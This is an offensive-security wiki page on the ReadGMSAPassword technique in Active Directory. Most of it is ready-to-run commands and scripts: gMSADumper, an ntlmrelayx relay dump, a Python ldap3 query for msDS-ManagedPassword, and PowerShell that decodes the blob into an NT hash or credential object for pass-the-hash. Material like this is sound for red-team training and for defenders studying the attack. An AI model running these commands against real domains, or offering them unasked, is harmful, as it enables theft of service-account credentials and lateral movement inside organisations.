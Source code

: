 # ReadGMSAPassword

This abuse stands out a bit from other abuse cases. It can be carried out when controlling an object that has enough permissions listed in the target gMSA account's `msDS-GroupMSAMembership` attribute's DACL. Usually, these objects are principals that were configured to be explictly allowed to use the gMSA account.

The attacker can then read the gMSA (group managed service accounts) password of the account if those requirements are met.

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, [gMSADumper](https://github.com/micahvandeusen/gMSADumper) (Python) can be used to read and decode gMSA passwords. It supports cleartext NTLM, pass-the-hash and Kerberoas authentications.

```bash
gMSADumper.py -u 'user' -p 'password' -d 'domain.local'
```



**Alternative #1**: Impacket's [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) tool can be used to read and decode gMSA passwords. :warning: Some tests showed ntlmrelayx missed entries gMSADumper didn't.

```bash
ntlmrelayx.py -t ldaps://10.0.0.5 -debug --dump-gmsa --no-dump --no-da --no-acl --no-validate-privs 
```

{% hint style="success" %}
In order to easily fake a relayed authentication, once the relay servers are up and running, the tester can browse [http://127.0.0.1/](http://127.0.0.1/) in order to trigger a basic authentication that will then be relayed by ntlmrelayx, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96).
{% endhint %}

**Alternative #2**: The `msDS-ManagedPassword` attribute can also be manually obtained by running the following Python script. The [following code](https://github.com/SecureAuthCorp/impacket/blob/3f3002e1c1dd78a5ee6100d6824ff7b65bbb92b6/impacket/examples/ntlmrelayx/attacks/ldapattack.py#L672-L702) can then be used to decode the blob.

```python
import ldap3
target_dn = "" # something like 'CN=Target User,OU=Standard Accounts,DC=domain,DC=local'
domain = "domain"
username = "username"
user = "{}\\{}".format(domain, username)
password = "password"
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
connection.bind()
connection.search(target_dn, '(&(ObjectClass=msDS-GroupManagedServiceAccount))', search_scope=ldap3.SUBTREE, attributes=['sAMAccountName','msDS-ManagedPassword'])
print(connection.entries)
```
{% endtab %}

{% tab title="Windows" %}
On Windows systems, there are multiple ways to read gMSA passwords.

The first one uses the Active Directory and DSInternals PowerShell modules.

```bash
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
# Alterantive: build a Credential-Object with the Plain Password
$cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

The second one relies on [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) (C#).

```bash
.\GMSAPasswordReader.exe --AccountName 'Target_Account'
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://cube0x0.github.io/Relaying-for-gMSA/" %}
